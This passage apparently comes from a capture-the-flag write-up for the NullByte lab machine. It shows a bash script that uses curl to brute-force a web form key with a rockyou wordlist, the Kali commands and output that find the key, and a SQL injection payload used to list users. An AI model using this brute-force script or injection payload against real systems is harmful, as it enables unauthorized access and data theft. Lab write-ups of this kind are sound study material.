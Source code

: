 ```baash
#!/bin/bash

url="http://192.168.179.152/kzMb5nVYJw/index.php"

for x in $(cat wordlist.txt); do
   ans=$(curl -s -X POST $url --data "key=$x")
   if [[ ${#ans} -eq 243 ]]; then
       continue
   else
       echo "Found: $x"
       break
   fi
done
```

I used the first 50000 passwords from the rockyou, gave it execute permissions and ran the script.

```console
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz > rockyou.txt
root@kali:~$ sed -n '1,50000p' rockyou.txt > wordlist.txt
```

```console
root@kali:~$ chmod +x bfkey.sh
root@kali:~$ ./bfkey.sh  
Found: elite
```

The script found the key **elite**, I entered the key and the site redirected me to another search box, I could verify that it's interacting with a data base and also is vulnerable to SQL injection.

![](/assets/images/nullbyte/screenshot-4.png)

![](/assets/images/nullbyte/screenshot-5.png)

I used the following payload to list all users.

`" or 1=1 -- -`
